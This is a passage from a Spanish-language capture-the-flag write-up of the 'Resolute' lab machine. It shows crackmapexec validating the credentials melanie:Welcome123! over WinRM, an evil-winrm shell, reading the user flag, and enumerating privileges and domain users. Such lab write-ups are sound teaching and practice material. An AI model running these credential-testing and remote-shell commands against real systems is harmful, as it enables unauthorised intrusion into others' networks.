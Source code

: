 - Si probamos con el protocolo **winrm** nos devuelve **Pwn3d!** eso significa que las credenciales son válidas y podemos usar **evil-winrm** para conectarnos con el usuario.

```bash
➜  content crackmapexec winrm 10.129.96.155 -u melanie -p Welcome123!
SMB         10.129.96.155   5985   RESOLUTE         [*] Windows 10.0 Build 14393 (name:RESOLUTE) (domain:megabank.local)
HTTP        10.129.96.155   5985   RESOLUTE         [*] http://10.129.96.155:5985/wsman
WINRM       10.129.96.155   5985   RESOLUTE         [+] megabank.local\melanie:Welcome123! (Pwn3d!)
```

## User flag

- Ahora nos podemos conectar y ver la **user flag**.

```bash
➜  content evil-winrm -i 10.129.96.155 -u melanie -p Welcome123!

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\melanie\Documents> whoami
megabank\melanie
*Evil-WinRM* PS C:\Users\melanie\Documents> type C:\Users\melanie\Desktop\user.txt
28d98e800659d48be64838d5b9bfce11
*Evil-WinRM* PS C:\Users\melanie\Documents>
```

## Shell as Ryan

- No tenemos nada interesante.

```bash
*Evil-WinRM* PS C:\Users\melanie\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

- Estos como ya sabemos son los usuarios del dominio.

```bash
*Evil-WinRM* PS C:\Users\melanie\Documents> net user /domain

User accounts for \\

-------------------------------------------------------------------------------
abigail                  Administrator            angela
annette                  annika                   claire
claude                   DefaultAccount           felicia
fred                     Guest                    gustavo
krbtgt                   marcus                   marko
melanie                  naoki                    paulo
per                      ryan                     sally
simon                    steve                    stevie
```